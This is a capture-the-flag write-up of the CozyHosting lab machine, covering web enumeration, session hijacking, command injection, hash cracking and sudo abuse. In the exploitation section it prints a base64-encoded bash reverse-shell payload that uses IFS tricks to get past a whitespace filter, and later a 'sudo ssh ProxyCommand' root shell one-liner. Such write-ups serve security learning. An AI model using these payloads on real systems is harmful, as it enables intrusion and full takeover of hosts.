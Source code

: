 # Write Up
## Introduction
Before starting to present the way it has been taken to solve CozyHosting machine, I will present an outline with the concepts that will be used to solve challenge:
- Exhaustive enumeration of the website.
- Session Hijacking.
- Command injection.
- Hash cracking with Hascat.
- Abuse of ssh SUID configuration.
## Reconnaisance phase
As usual, reconnaissance phase was the first phase executed due to the fact that a hacker needs to know as much information about his target as possible before starting to exploit posible vulnerabilities.

To do this, you need to add a new line in the ''/etc/hosts'' file, where you define which IP is linked to which domain name. As shown in the following image, if you want to access CozyHosting.htb, you are going to send a request to 10.10.11.230 really:

[![hosts.png](https://i.postimg.cc/x1P6MnhB/hosts.png)](https://postimg.cc/WdhmPL27)

Next, Nmap is used to scan all ports on the server. The tool output is as follows:

[![Nmap.png](https://i.postimg.cc/5yRVx8qq/Nmap.png)](https://postimg.cc/GTGNK8fH)

As shown in the last image, two open ports were discovered exposing two different services:
- Port 22: SSH service.
- Port 80: HTTP service.

Due to the fairly up-to-date version of SSH, it seems that the way to go is to perform a technology scan on port 80.

[![WhatWeb.png](https://i.postimg.cc/prjXB6k4/WhatWeb.png)](https://postimg.cc/649XWzkf)

As you can see, nginx 1.18.0 is running behind, but no important information is displayed. Therefore, the website was accessed to look for some useful information:

[![image.png](https://i.postimg.cc/xqr7KsFs/image.png)](https://postimg.cc/y3PvKTK9)

After searching for information, the only data retrieved is the login panel behind the path "/login". So a search was initiated using Wfuzz to list more paths and resources on the server.

```bash
wfuzz -c -t 200 --hc 404,400 --hh 0 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt http://CozyHosting.htb/FUZZ 
```

The following diagram represents the paths and resources found:

[![diagrama.png](https://i.postimg.cc/fRT8Ft0W/diagrama.png)](https://postimg.cc/svqPG2cb)

After finding these resources on the web, you can test some potential vulnerabilities, for example by bypassing the login panel with a SQLi or Type Juggling, etc. ..... But nothing worked.
If you find yourself in this situation and you have tested all possible vulnerabilities, it is likely that you have not done a thorough reconnaissance.  Therefore, Wfuzz was ran again with another dictionary:

```bash
wfuzz -c -t 200 --hc 404,400 --hh 0 -w /usr/share/SecLists/Discovery/Web-Content/combined_directories.txt http://CozyHosting.htb/FUZZ
```

With that dictionary, another route called "actuator" was found, if you go into it you will find more paths, as shown behind:

[![image.png](https://i.postimg.cc/DfgtjbC0/image.png)](https://postimg.cc/SjnTjjbb)
## Exploitation phase

A session ID can be found in the path "sessions". With this session ID under control it is possible to perform a session hijacking. So it was copied and pasted into the cookie that the website assigned to me.

Now, if you enter the login panel, the website redirects you directly to the administration section:

[![Admin.png](https://i.postimg.cc/90pLFS8T/Admin.png)](https://postimg.cc/XBrfs207)

Within the administration section there is only one function to exploit. Apparently, this function runs a shell command to connect via ssh to other machines, with a private key, to update their installed software. This command might be something like the following:

```bash
ssh -i id_rsa.pem <username>@<hostname>
```

Since the page is running a shell command upon receiving the request, it is likely vulnerable to command execution. Therefore, a payload "; whoami" was injected into both fields. First in the hostname field:

[![Burp2.png](https://i.postimg.cc/QNmwSS1B/Burp2.png)](https://postimg.cc/F1fTHyPm)

As you can see, this injection did not work on the hostname field, so you will probably have to enter a correct hostname. The second field was tested by entering the same payload to see the response:

[![Burp3.png](https://i.postimg.cc/QNky6SGL/Burp3.png)](https://postimg.cc/Th101V3Q)

In this case, another error is reported. As the web page tells us not to use whitespace, an Internal Field Separator was injected to see the response from the web page:

[![Burp4.png](https://i.postimg.cc/k4Mj66wV/Burp4.png)](https://postimg.cc/R38120k9)

The error changed, so the payload was injected and we are informed that the command "whoami@10.10.11.230" does not exist. So, the payload works because I am avoiding the ssh command and the whitespace was interpreted by the shell.
Now, this error can be fixed by injecting a # to comment out the rest of the command that I do not want.

[![image.png](https://i.postimg.cc/kMYbd6bj/image.png)](https://postimg.cc/vD9BrmX9)

The injected command did not return any results. But this doesn't mean that the command injection didn't work, because the web page is probably not showing the response. So why not create a server and inject a request to my server?

[![Burp6.png](https://i.postimg.cc/zfSVV3PR/Burp6.png)](https://postimg.cc/jW2s1qTs)

As you can see, this works so I am injecting shell commands into the server. It is time to create a reverse shell and get access to the server. The payload used was:

```
host=10.10.11.230&username=%3b${IFS}echo${IFS}"YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xMC85OTk5IDA%2bJjEK"${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash%3b${IFS}%23
```

The reverse shell was encoded with the base64 algorithm to avoid problems when sending it through a request. And the entire payload was urlencoded for the same reason.

[![Evidencia.png](https://i.postimg.cc/7L8bXSTR/Evidencia.png)](https://postimg.cc/K1fZ8kf7)
## Post-Exploitation phase
### Privilege escalation to Josh

After gaining access to the app user, it's time to do a system recon. A couple of things could be found: 

- A file called cloudhosting-0.0.1.jar.
- And a postrgreSQL running on port 5432.
 
The .jar extension is typical of two types of Java programming language files. On the one hand, a .jar file can be a Java application file, i.e. a program that, as such, can be executed.


On the other hand, a .jar file usually contains a library with several files. The .jar extension is short for Java Archive and usually contains, as the name suggests, several Java files and metadata that are sent synthesised and compressed. In addition to .jar files, this extension can also contain images, audio files or other formats and works similarly to a .zip file.


Because of the last comment there are two possible ways to see the content of that file:

- Unzip the file, for example with 7z.

```bash
7z x cloudhosting-0.0.1.jar
```

- Or use an application like jd-gui, which allows you to see the whole content without decompressing the file.

```bash
jd-gui & 2>/dev/null disown
```

Using jd-gui you can find some credentials for accessing postgreSQL:

[![credentials.png](https://i.postimg.cc/5tjXbr7Q/credentials.png)](https://postimg.cc/5Hd4msMf)

By entering the correct credentials and accessing the cozyhosting database you can see two hashes:

```bash
psql -h localhost -U postgres
```

[![Postgre.png](https://i.postimg.cc/KzV2yqKf/Postgre.png)](https://postimg.cc/KknVP5D3)

By retrieving both hashes, it is now possible to crack them using hascat, resulting in the following file:

[![cracked.png](https://i.postimg.cc/50j3Z1FH/cracked.png)](https://postimg.cc/jw0P7pcK)

If you use the password that has been decrypted above, you will be logged in as the user Josh.
### Privilege escalation to Root

After logging in as Josh, it's time to do another system recon. If you have listed the user's sudo permissions, you will see that he can run the ssh command as superuser. Because of this misconfiguration, it is possible to launch a sh as the root user and get privilege escalation.

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

[![sudo.png](https://i.postimg.cc/SQgwHN2r/sudo.png)](https://postimg.cc/XXyHCWgG)
